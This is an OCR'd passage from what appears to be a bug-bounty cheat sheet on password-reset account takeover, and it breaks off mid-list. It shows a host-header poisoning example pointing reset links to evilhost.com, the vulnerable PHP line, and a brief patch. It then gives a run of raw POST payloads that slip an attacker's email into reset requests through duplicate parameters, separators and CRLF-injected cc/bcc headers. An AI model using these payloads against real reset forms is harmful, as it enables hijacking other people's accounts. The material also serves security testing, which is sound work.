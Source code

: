     If you find a password reset token like this
    	

    https://evilhost.com/reset-password.php?token=12345678-1234-1234-1234-12345678901

Patch

Use $_SERVER['SERVER_NAME'] rather than $_SERVER['HTTP_HOST']

password link is genrated like this:

$resetPasswordURL = "https://{$_SERVER['HTTP_HOST']}/reset-password.php?token=12345678-1234-1234-1234-12345678901";

Impact

The victim will receive the malicious link in their email, and, when clicked, will leak the user’s password reset link / token to the attacker, leading to full account takeover.
Reference:

    https://hackerone.com/reports/226659
    https://hackerone.com/reports/167631
    https://www.acunetix.com/blog/articles/password-reset-poisoning/
    https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
    https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87

[3] Account Takeover: Password Reset With Manipualating Email Parameter
Exploitation

    Add attacker email as second parameter using &

POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com

Add attacker email as second parameter using %20

POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com

Add attacker email as second parameter using |

POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com

Add attacker email as second parameter using cc

POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"

Add attacker email as second parameter using bcc

POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"

Add attacker email as second parameter using ,
